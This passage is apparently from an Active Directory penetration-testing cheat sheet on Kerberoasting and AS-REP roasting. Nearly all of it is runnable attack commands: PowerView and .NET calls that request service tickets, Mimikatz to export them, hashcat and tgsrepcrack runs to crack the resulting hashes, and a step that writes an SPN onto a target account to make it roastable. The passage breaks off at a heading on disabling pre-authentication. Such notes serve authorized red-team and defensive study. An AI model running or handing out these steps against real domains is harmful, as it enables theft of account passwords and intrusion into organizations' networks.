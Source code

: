 #### Kerberoasting <a href="#kerberoasting" id="kerberoasting"></a>

**Automatic**

With PowerView:

```powershell
Get-DomainSPNTicket -SPN "MSSQLSvc/sqlserver.targetdomain.com"
```

Crack the hash with Hashcat:

```bash
hashcat -a 0 -m 13100 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```

### Bash

**Manual**

```powershell
# Request TGS for kerberoastable account (SPN)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.targetdomain.com"

# Dump TGS to disk
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack with TGSRepCrack
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssqlsvc.kirbi
```

**Targeted kerberoasting by setting SPN**

We need have ACL write permissions to set UserAccountControl flags for the target user, see above for identification of interesting ACLs. Using PowerView:

```powershell
Set-DomainObject -Identity TargetUser -Set @{serviceprincipalname='any/thing'}
```

#### AS-REP roasting <a href="#as-rep-roasting" id="as-rep-roasting"></a>

Get the hash for a roastable user (see above for hunting). Using `ASREPRoast.ps1`:

```powershell
Get-ASREPHash -UserName TargetUser
```

#### Crack the hash with Hashcat:

```bash
hashcat -a 0 -m 18200 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```

**Targeted AS-REP roasting by disabling Kerberos pre-authentication**
